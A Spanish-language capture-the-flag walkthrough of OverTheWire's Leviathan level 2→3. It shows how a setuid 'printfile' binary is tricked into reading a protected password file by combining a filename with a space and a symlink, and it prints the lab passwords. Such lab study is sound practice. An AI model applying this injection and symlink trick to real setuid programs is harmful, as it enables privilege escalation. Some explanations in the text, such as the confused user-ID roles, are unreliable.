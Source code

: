 ## Leviathan Level 2 → Level 3

## Level Goal

There is no information for this level, intentionally.

## Write Up Iker 

Fácil. Tenemos que conectarnos por **SSH** a la dirección **leviathan.labs.overthewire.org** en el puerto **2223** con los siguientes datos:

```bash
  - User: leviathan1
  - Pass: ougahZi8Ta
```

Escribimos el siguiente comando en la consola:
  
```bash 
$ ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

Accedemos sin problemas y vemos que hay un fichero llamado **printfile**

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Ejecutamos el programa y nos indica que debemos especificarle el nombre de un fichero para imprimirlo.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile asdf.txt
You cant have that file...
```

Vamos a probar a ver si nos deja imprimir por la password del directorio que hemos localizado antes.

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

¡Vaya! Nos nos deja :( . Tendremos que obligarle a que imprima un fichero de verdad.

El mejor lugar para crear un fichero temporal es en la carpeta **tmp** del sistema por lo que vamos a crear uno allí.

```bash
leviathan2@leviathan:~$ mkdir /tmp/iker & touch /tmp/iker/asdf.txt
[1] 318
[1]+  Done                    mkdir /tmp/iker
leviathan2@leviathan:~$ ls -l /tmp/iker/      
total 0
-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep  6 15:24 asdf.txt
```

Ahora que ya hemos creado nuestro fichero vamos a intentar imprimirlo.

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

Lo ejecutamos pero no nos da ningun error. Vamos a volver a ejecutarlo pero esta vez con el comando **ltrace** para ver que es lo que hace.

```bash
leviathan2@leviathan:~$ltrace ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /tmp/iker/asdf.txt
__libc_start_main(0x804852d, 2, 0xffffd7d4, 0x8048600 <unfinished ...>
access("/tmp/iker/asdf.txt", 4)                                                                                               = 0
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")                                             = 27
system("/bin/cat /tmp/iker/asdf.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                        = 0
+++ exited (status 0) +++
```

Tal y como pensaba, el programa realiza un **cat** sobre un parámetro que le pasemos desde el fichero **adsf.txt**

Vamos a agregar el directorio que hemos comentado antes **/etc/leviathan_pass/leviathan3** al fichero **asdf.txt** de tal forma que el programa realice la lectura del fichero.

```bash
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")   
```
**%s** será el contenido del fichero **/tmp/iker/asdf.txt**  que le pondremos la ruta **/etc/leviathan_pass/leviathan3** .

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
/etc/leviathan_pass/leviathan3
```
Probamos el comando anterior pero solo muestra el contenido del fichero de asdf.txt, es decir, la ruta que hemos agregado manualmente. Algo se nos escapa. 

Vamos a analizar el código de nuevo.

Vemos algo curioso a la hora de listar el directorio donde está el programa.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Observamos que el fichero **printfile** tambien tiene como usuario global a **leviathan3** y usuario real a **leviathan3**.

```html
Con procesos de Linux ejecutandose bajo un "user-ID". Esto les da acceso a todos los recursos (ficheros, etc...) a los que este usuario tendría acceso. Hay dos user-ID's. El user-ID real y el user-ID efectivo. El user-ID efectivo es el que determina el acceso a los ficheros. 
```

Es decir, que **leviathan3** es el **User-ID efectivo**, el que determina el acceso a los ficheros y **leviathan2** es el **User-ID Real**.

Después de investigar un poco el código resultante de **ltrace** e internet, vemos que la llamada **access** se hace con el **User-Id Efectivo** en este caso y que podemos hacer un **bypass** 

Después de pelear con los enlaces symbólicos consigo haver con la pass. 

```bash
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2 33 Sep  6 15:37 asdf.txt
leviathan2@leviathan:/tmp/iker$ touch asdf\ asdf.txt
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Sep  6 16:03 asdf asdf.txt
leviathan2@leviathan:/tmp/iker$ ~/printfile "asdf asdf.txt"
Ahdiemoo1j
```

:v: :sunglasses: :v:

**FLAG** = {Ahdiemoo1j} 
